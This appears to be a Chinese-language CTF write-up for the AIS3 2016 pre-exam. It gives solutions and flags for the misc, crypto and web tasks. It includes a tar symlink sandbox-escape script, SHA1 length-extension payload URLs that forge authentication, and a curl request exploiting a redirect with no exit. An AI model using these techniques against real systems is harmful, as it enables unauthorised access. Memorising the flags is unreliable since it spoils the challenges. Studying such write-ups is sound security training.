 ## misc-1

Open the `misc1.txt`

The key is `ais3{2016_^_^_hello_world!}`

## misc-2

Hint: 7Zip

此題會給一個沒副檔名又壞掉的 [File](misc2/UNPACK_ME)

透過 [Hex Editor](http://www.azofreeware.com/2014/04/hxd-1770-hex.html) 可以發現它的 header 是一個 7z 壓縮檔

![misc2/img_misc2_1.png](misc2/img_misc2_1.png)

透過 [7Zip](http://www.7-zip.org/recover.html) 官方的說明，可以知道真正的 7z header 是 7z 不是 7Z

![misc2/img_misc2_2.png](misc2/img_misc2_2.png)

修復好並解壓縮後，會發現需要密碼，

接著可以猜密碼可能是 `UDJRRDVRJyfbWBxEMLEX`

![misc2/img_misc2_3.png](misc2/img_misc2_3.png)

成功解壓後，又獲得壞掉的壓縮檔，依照以上的修復方式，

再次解壓縮後可以得到放密碼的`secret.txt`，另一個是壞掉的壓縮檔

![misc2/img_misc2_4.png](misc2/img_misc2_4.png)

重複做了好幾次發現，這個壓縮檔可能包了好幾層...

執行以下程式，最後得到 `flag.txt`

`WeiYu$ python misc2_sol.py` 

Here is the misc2_sol.py code

``` python
#!/usr/bin/env python3

import os
import subprocess

index = 0

while True:
    archive = str(index) + '.7z'
    key_filename = str(index) + '.key'
    with open(archive, 'rb') as old_archive:
        content = old_archive.read()
        content = b'7z' + content[2:]
        archive = str(index) + '_z.7z'
        with open(archive, 'wb') as f:
            f.write(content)

        key = None
        with open(key_filename, 'r') as f:
            key = f.read().strip()
        subprocess.call('7z e ' + archive + ' -otemp' + ' -p' + key + ' -y',shell=True)

        index += 1
        os.rename("./temp/secret.txt", "./" + str(index) + ".key")

        file_list = os.listdir("./temp")
        assert len(file_list) == 1

        os.rename("./temp/" + file_list[0], "./" + str(index) + ".7z")
        pass
```

The key is `ais3{7zzZzzzZzzZzZzzZiP}`


## misc-3

Hint: symbolic link (透過 tar 可保留 synblic link)

`WeiYu$ ln -s ../flag.txt guess.txt`

`WeiYu$ tar cvf guess.tar guess.txt`

`WeiYu$ python misc3_sol.py`

Here is the misc3_sol.py code 

``` python
#!/usr/bin/env python3

import telnetlib

data = str.encode(list(open('guess.tar'))[0])
client = telnetlib.Telnet('quiz.ais3.org', 9150)
client.write(str.encode(str(len(data))) + '\n' + data)
print(client.read_all())
```
 
The key is `ais3{First t1me 1$sc4pe tHE S4nd80x}`

## crypto-1

Hint: XOR

可以透過 [xortool](https://github.com/hellman/xortool) 破解此題

以下為執行畫面
![crypto1/xortool_sol.png](crypto1/xortool_sol.png)

得到了 `ais3{XoR_enCrYPti0N_15_n0t_a_G00d_i!ea}`

但上傳 key 的時候，發現不正確... ((崩潰 

後來發現有個英文單字拼錯，修改後，得到了通關的 key

The key is `ais3{XoR_enCrYPti0N_15_n0t_a_G00d_idea}`


## crypto-2

Source Code

``` php
<?php
    $path = "..";
    $file = "flag.txt";
    $authenticated = false;
    $secret = trim(file_get_contents("$path/$file"));
    assert(strlen($secret) <= 60);

    if(isset($_GET['expire']) && isset($_GET['auth'])) {
        $expire = $_GET['expire'];
        $auth = $_GET['auth'];
        $qstr = substr(strstr($_SERVER['REQUEST_URI'], '?'), 1);
        $qstr = preg_replace('/&auth=.*/', '', $qstr);
        $qstr = urldecode($qstr);
        if(sha1($secret . "$qstr") === $auth) {
            if($expire > time(0)) {
                $authenticated = true;
            }
        }
    } else {
        $expire = time(0) - 1000000;
        $auth = sha1($secret . "expire=$expire");
        $uri = preg_replace('/\?.*/', '', $_SERVER['REQUEST_URI']);
        header("HTTP/1.1 302 Found");
        header("Location: $uri?expire=$expire&auth=$auth");
        die;
    }
?>
```

這篇參考了 PCC 的 [Writeup](https://github.com/pcchou/ctf-writeups/blob/master/2016/tw-edu-ctf/LEA/README.md") 

得知此題是 `length extension attack` 處理

Payload 1
```
https://quiz.ais3.org:8014/?expire=1467343030%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01h
&expire=2467343030&auth=b3afa04f67bff2c22754d4313a91b82cf2ad0eb0
```
Padload 2
```
https://quiz.ais3.org:8014/?expire=1467346517&auth=5c85f041d3de578d2acca06a90cf83633129e24e
&expire=12467346517
```

The key is `ais3{HasH.eXtension.@tt@ck!}`

## web-1

開啟 [web1](https://quiz.ais3.org:8011) 看到以下內容

```
There is a secret page in these website. Even Google can not find it, can you?
```

推測是 `robots.txt`，得到了以下資訊

```
User-agent: *
Disallow: /admin
Disallow: /cgi-bin/
Disallow: /images/
Disallow: /tmp/
Disallow: /private/
Disallow: /this_secret_page_you_should_not_know_where_it_is.php
```

開啟 [`https://quiz.ais3.org:8011/this_secret_page_you_should_not_know_where_it_is.php`](https://quiz.ais3.org:8011/this_secret_page_you_should_not_know_where_it_is.php)


The key is `ais3{Y0u_beat_the_G00g1e!!}`


## web-2

開啟 [web2](https://quiz.ais3.org:8012/)

``` php
<?php
error_reporting(0);
include "flag.php";

// Strong IP firewall, no-one can pass this except the admin in localhost
if ($_SERVER['REMOTE_ADDR'] !== '127.0.0.1')
{
header("Location: you_should_not_pass");
}
?>

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Admin Panel</title>
</head>
<body>
Admin's secret is: <?php echo $flag; ?>
</body>
</html>
```

可以看到這段 php 沒有 `exit` 跟 `die`，因此 body content 還是會輸出

```
WeiYu$ curl https://quiz.ais3.org:8012/

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Admin Panel</title>
</head>
<body>
Admin's secret is: ais3{admin's_pane1_is_on_fir3!!!!!}
</body>
</html>
```

The key is `ais3{admin's_pane1_is_on_fir3!!!!!}`


## web-3

開啟 [web3](https://quiz.ais3.org:8013/)

可以自己架起來玩 [PHP](web3/)




